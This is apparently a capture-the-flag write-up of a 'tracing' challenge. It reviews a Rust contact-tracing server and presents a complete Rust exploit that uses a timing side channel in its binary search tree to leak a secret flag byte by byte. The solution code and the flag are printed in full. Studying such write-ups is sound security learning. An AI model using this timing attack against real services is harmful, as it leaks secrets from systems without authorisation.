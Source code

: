 # tracing

_pwn, easy_

> An early prototype of a contact tracing database is deployed for the developers to test, but is configured with some sensitive data. See if you can extract it.

## initial review

we are provided a rust source package.  A quick scan of the Cargo.toml shows that no dependencies have known vulnerabilities.  

```toml
[package]
name = "pwn-tracing"
version = "0.1.0"
authors = ["Robin McCorkell <rmccorkell@google.com>"]
edition = "2018"

[dependencies]
log = "0.4.8"
env_logger = "0.7.1"
futures = "0.3.5"
uuid = "0.8.1"

[dependencies.async-std]
version = "1.6.1"
features = ["attributes"]
```

```
❯ grep -r "unsafe" .
```

A quick grep shows that there are no unsafe keywords which means we are likely looking at a logic error.  


```rust
use async_std::net::{TcpListener, TcpStream};
use async_std::prelude::*;
use log::{debug, warn};
use pwn_tracing::bst::BinarySearchTree;
use uuid::Uuid;

const BIND_ADDR: &str = "0.0.0.0:1337";

async fn accept(mut stream: TcpStream, checks: Vec<Uuid>) -> std::io::Result<()> {
    debug!("Accepted connection");
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    let chunks = {
        // Ugh, async_std::prelude::StreamExt doesn't have chunks(),
        // but it conflicts with futures::stream::StreamExt for the methods it
        // does have.
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };
    let mut count: u32 = 0;
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    debug!("Received {} IDs", count);
    stream.write_all(&count.to_be_bytes()).await?;

    debug!("Checking uploaded IDs for any matches");
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    stream.shutdown(std::net::Shutdown::Both)?;
    debug!("Done");
    Ok(())
}

#[async_std::main]
async fn main() -> std::io::Result<()> {
    env_logger::init();

    let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();

    debug!("Loaded checks: {:?}", checks);

    let listener = TcpListener::bind(BIND_ADDR).await?;
    let mut incoming = listener.incoming();

    while let Some(stream) = incoming.next().await {
        let stream = stream?;
        async_std::task::spawn(accept(stream, checks.clone()));
    }
    Ok(())
}
```



To summarize: 

1. Load arguments as stored UUIDs
2. Start up TCP server
3. Read input from a connection, split it into 16 byte chunks, and map it into UUIDs
4. Write the number of received UUIDs back to the client
5. Construct a binary search tree from the received UUIDs
6. Check if the arg UUIDs are in that binary tree and if so say something in the log
7. Close the connection

We get very little data back from the server.  From the note provided with the challenge it seems likely that our flag is stored in the arg UUIDs but we don't have any obvious ways to extract that because we don't get feedback based on how the binary search works out. 

## attack overview

We realized that we although we couldn't get any feedback directly, we could perform a timing attack.  By constructing a binary tree such that uuids lower than the node hit the end of the tree immediately and uuids higher have to traverse a long tail we can leak which direction the character is in.  By performing a binary search (heh) we can narrow this down to the exact byte in 8 connections.  This can be done for everything except the last two characters because of how we created the payload.  Fortunately, we know that the last character in the flag is a closing bracket and the 2nd to last character was obvious from context.  

```rust
use itertools::Itertools;
use std::cmp::Ordering;
use std::cmp::Ordering::{Equal, Greater, Less};
use std::error::Error;
use std::iter::Iterator;
use std::time::{Duration, Instant};
use tokio::io::{AsyncReadExt, AsyncWriteExt};
use tokio::join;
use tokio::net::TcpStream;
use tokio::time::delay_for;

fn create_payload(known: &[u8], i: u8) -> Vec<[u8; 16]> {
    (0..=0xff)
        .cartesian_product(0..=0x2f)
        .map(|(l, r)| {
            let mut res = [0u8; 16];
            res[0..known.len()].clone_from_slice(&known[..]);
            res[known.len()] = i;
            res[known.len() + 1] = l;
            res[known.len() + 2] = r;
            res
        })
        .collect::<Vec<[u8; 16]>>()
}

async fn attack(entries: Vec<[u8; 16]>) -> Result<Duration, Box<dyn Error>> {
    let mut total = Duration::new(0, 0);
    let mut tasks = Vec::new();

    let NUM_TRIES: u8 = 3;

    for _ in 0..NUM_TRIES {
        let entries = entries.clone();
        tasks.push(tokio::spawn(async move {
            let (mut read, mut write) = TcpStream::connect("tracing.2020.ctfcompetition.com:1337")
                // let (mut read, mut write) = TcpStream::connect("localhost:1337")
                .await
                .unwrap()
                .into_split();
            for e in &entries {
                write.write_all(e).await.unwrap();
            }

            let mut resp = Vec::new();
            write.flush().await.unwrap();
            delay_for(Duration::new(10, 0)).await;
            write.shutdown().await.unwrap();
            let mut buf = [0; 4];
            read.read(&mut buf).await.unwrap();
            let start = Instant::now();
            read.read_to_end(&mut resp).await.unwrap();
            let elapsed = start.elapsed();


            assert_eq!(entries.len() as u32, u32::from_be_bytes(buf));
            elapsed
        }));
    }

    for task in tasks {
        total += task.await?;
    }

    Ok(total / NUM_TRIES as u32)
}

async fn discover_next(known: &[u8]) -> Result<u8, Box<dyn Error>> {
    let time_low = Duration::from_millis(10);

    let mut first = 0;
    let mut it = 0;
    let mut step = 0;
    let mut count = 255;
    while count > 0 {
        it = first;
        step = count / 2;
        it += step;
        let duration = {
            let mut curr = Duration::from_millis(0);
            loop {
                let temp = attack(create_payload(known, it)).await;
                if temp.is_ok() {
                    curr = temp.unwrap();
                    break;
                }
            }
            curr
        };
        if duration > time_low {
            it += 1;
            first = it;
            count -= step + 1
        } else {
            count = step;
        }
        println!("{} - {} - {:?}", it, step, duration);
    }
    it -= 1;
    Ok(it)
}

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
    let mut flag: Vec<u8> = "".bytes().collect();
    // can't consistently crack the last two chars because there isn't space to make long binary tree branches
    // the last char is known to be } because of the flag format but the second to last char just needs to be guessed
    // it was pretty obviously e from the pattern
    for _ in 0..14 {
        let next = discover_next(&flag).await?;
        flag.push(next);
        println!("flag thus far: {}", String::from_utf8_lossy(&flag));
    }
    assert_eq!( String::from_utf8_lossy(&flag) + "e}", "CTF{1BitAtATime}");
    Ok(())
}
```